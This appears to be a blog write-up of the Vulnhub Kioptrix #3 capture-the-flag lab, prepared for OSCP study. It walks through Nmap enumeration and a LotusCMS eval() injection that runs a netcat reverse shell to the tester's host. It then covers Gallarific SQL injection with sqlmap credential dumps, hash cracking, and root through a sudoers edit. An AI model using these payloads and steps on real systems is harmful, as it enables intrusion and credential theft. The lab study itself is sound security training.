 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #3 Writeup"
date:   2020-02-07 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

### [Vulnhub - Kioptrix #3](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Enumeration
Lets add `kioptrix3.com` to `hosts` file and start off with `Nmap`

### Nmap
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:34 IST
Nmap scan report for 192.168.71.130
Host is up (0.0026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:93:F2:E6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Found some interesting urls by browsing around and using `dirb`.
```bash
http://kioptrix3.com/phpmyadmin/
http://kioptrix3.com/gallery/gadmin/
http://kioptrix3.com/index.php?system=Admin
```

There are lot of methods to compromise this system. I will try to explain the ones I found.

# User Shell Method 1 (Lotus CMS RCE)
The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`

### Searchsploit

```bash
kali@kali:~$ searchsploit lotuscms
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | exploits/php/remote/18565.rb
```

Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`

### Understanding LotusCms RCE
***  
>This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
>which will be passed to a eval call, therefore allowing remote code execution.

So we can escape the `eval` call and execute our own php code by appending `');`

A reverse shell can be execute using the following code
```bash
kioptrix3.com/index.php?page=index');exec("nc -e /bin/bash 192.168.174.3 1234"); //
```
Setup a `nc` listener to catch the request and use `python pty` module to upgrade it to a full TTY shell
```bash
kali@kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.174.3] from kioptrix3.com [192.168.174.5] 34305
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$    
```

## Low Shell Enumeration

There is a file named `gconfig.php` in `/home/www/kioptrix3.com/gallery` that contains the `db` credentials
```bash
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
-------output snipped---------------
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
-------output snipped---------------
```

We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
But we have to crack the hashes to get the password.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}

# User Shell Method 2 (SQL Injection)

The web server is using `Gallarific`. It contains an SQL Injection in the following url.

```bash
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/sql1.png){: .align-center}

The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`

### SqlMap

```bash
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+

Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |

```
`sqlmap` found login for the users `dreg` and `loneferret` and also logins for `gallarffic`.

These hashes can be cracked using rainbow tables or by brute forcing.

### Crackstation (Rainbow Table Attack)
We can crack the hashes using online rainbow table hash cracker. [Crackstaion](crackstation.net/)
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/crackstation.png){: .align-center}


## Root Shell
After `SSH`ing into the box we can see that there is a file named `CompanyPolicy.README` which contains the following text.

```bash
loneferret@Kioptrix3:/home/loneferret# cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

So we can run `sudo ht`. `ht` is a text editor and since its running as `root` we can gain `root` using one these methods
1. Edit `sudoers` file 
2. Add our key to `ssh`
3. Change the password file.

Since method 1 is the easiest, lets do it that way.

Before using `ht` we have to set the `$TERM` env variable to `xterm`
```bash
loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
```
So lets open `sudoers` file and add `/bin/sh` to it.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}

And we are root!

## Afterthoughts
This box was comparatively easy to root. But that was not the case for me. This was because I failed to enumerate the box properly. Once I found a possible exploit
I immediately abandoned further enumeration and focused on that method alone and ended up getting stuck and had to look for hints. So I have learned a very important lesson form this box. Enumeration is the most important step.  
There seems to be a kernel exploit available for this box, but I did not try that out.

## Further reading
1. [Manual SQL Injection.](https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step) Can't use `sqlmap` during OSCP
2. [Structure of sudoers file](https://www.garron.me/en/linux/visudo-command-sudoers-file-sudo-default-editor.html)
3. [Autorecon.](https://github.com/Tib3rius/AutoRecon) An excellent tool for automating enumeration